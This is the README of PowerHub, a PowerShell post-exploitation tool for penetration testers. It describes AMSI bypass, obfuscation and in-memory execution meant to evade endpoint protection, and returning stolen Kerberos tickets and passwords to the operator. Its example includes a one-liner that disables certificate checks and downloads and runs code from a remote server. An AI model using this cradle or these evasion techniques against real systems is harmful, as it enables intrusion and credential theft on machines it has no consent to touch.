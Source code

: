 PowerHub
========

PowerHub is a convenient post exploitation tool for PowerShell which aids a
pentester in transferring data, in particular code which may get flagged by
endpoint protection. Features:

* Fileless
* Stateless
* Cert pinning
* String "obfuscation" by RC4 encryption
* Choose your AMSI Bypass
* Transparent aliases for in-memory execution of C# programs

![PowerHub Webapp](docs/img/powerhub-webapp.png)
![PowerHub Webapp](docs/img/powerhub-sharphound.png)

During an engagement where you have a test client available, one of the
first things you want to do is run SharpHound, Seatbelt, PowerUp,
Invoke-PrivescCheck or PowerSploit. So you need to download the files,
mess with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```powershell
PS C:\Users\avollmer> [System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};$Nxois='bZeVBC4vZfakT5SmCcaFam6IRY6UNLnC';$Plukgmio=New-Object Net.WebClient;IEX $Plukgmio.DownloadString('https://192.168.11.2:8443/')
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
2.0.0                       written by Adrian Vollmer, 2018-202
Run 'Help-PowerHub' for help
PS C:\Users\avollmer> Get-HubModule PowerView

Name   : /home/avollmer/.local/share/powerhub/modules/PowerSploit/Recon/PowerView.ps1
Type   : ps1
N      : 205
Loaded : True
Alias  :

PS C:\Users\avollmer> Get-LocalGroup | PushTo-Hub -Name groups.json
```

Documentation
=============

Read the docs [here](https://adrianvollmer.github.io/PowerHub/).

**Installation:** <https://adrianvollmer.github.io/PowerHub/installation.html>
**Usage:** <https://adrianvollmer.github.io/PowerHub/usage.html>
**Contributing:** <https://adrianvollmer.github.io/PowerHub/contrib.html>
**Changelog:** <https://adrianvollmer.github.io/PowerHub/changelog.html>


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10,
p3nt4. And of course, it would be nothing without @harmj0y,
@mattifestation and the many other contributors to
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author and License
==================

Adrian Vollmer, 2018-2023. MIT License.

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
